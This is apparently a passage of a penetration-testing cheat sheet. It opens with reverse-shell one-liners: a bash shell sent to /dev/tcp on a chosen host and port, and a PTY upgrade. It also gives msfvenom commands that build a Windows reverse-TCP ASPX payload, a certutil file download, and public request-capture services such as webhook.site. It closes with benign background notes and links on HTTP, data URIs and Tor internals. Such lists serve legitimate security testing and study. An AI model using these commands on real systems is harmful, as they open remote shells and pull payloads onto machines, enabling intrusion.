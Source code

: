     > Enable PTY
    >
    > python3 -c 'import pty;pty.spawn("/bin/bash")'

    - `$ bash -c "/bin/bash -i >& /dev/tcp/${HOST}/${PORT} 0<&1"`
    - [reverse ICMP shell (icmpsh)](https://github.com/bdamele/icmpsh)
    - `$ msfvenom --list payloads`
        - `$ msfvenom -p windows/x64/shell_reverse_tcp -f aspx -o reverse.aspx LHOST=${host} LPORT=1337`

### Connection
- `/dev/tcp/<HOST>/<PORT>`
- telnet
- nc / ncat / socat
- `$ certutil.exe -urlcache -f <url> <filename>`
- [HTTPie](https://devhints.io/httpie)

### Public Temp Server
- webhook.site
    - unique URL (https / CORS)
    - unique email
- beeceptor
- hookbin.com
- requestbin.net


## Background

### HTTP Protocol
- [Basics of HTTP](https://developer.mozilla.org/zh-TW/docs/Web/HTTP/Basics_of_HTTP)
    - MIME

        > type/subtype;parameter=value

- [URI schemes](https://en.wikipedia.org/wiki/List_of_URI_schemes)
    - Data URI

        > data:[&lt;mediatype&gt;][;base64],&lt;data&gt;

### The Onion Routing Protocol (Tor)
> Tor is an overlay network.
> 
> It is composed by thousands (~ 6-11k) **relays**, connected through
> **channels** that form **circuits** inside which **cells** are sent
> and received.
>
> -- <cite>[microlab.red](https://microlab.red/2024/09/03/tor-internals-for-those-of-us-who-also-have-a-life-1-n/)</cite>

> [The Tor Project](https://www.torproject.org/)  
> [TOR internals, for those of us who also have a life (1/n) | microlab.red](https://microlab.red/2024/09/03/tor-internals-for-those-of-us-who-also-have-a-life-1-n/)  
> [TOR internals, for those of us who also have a life (2/n) | microlab.red](https://microlab.red/2024/09/23/tor-internals-for-those-of-us-who-also-have-a-life-2-n/)  
> [Creating a Testing Tor Network From Scratch | dax](https://medium.com/@dax_dev/creating-a-testing-tor-network-from-scratch-e952d76a18cb)  
> [Decentralized Routing in Tor Hidden Services](https://medium.com/@kyodo-tech/decentralized-routing-in-tor-hidden-services-40e0bc0793d5)
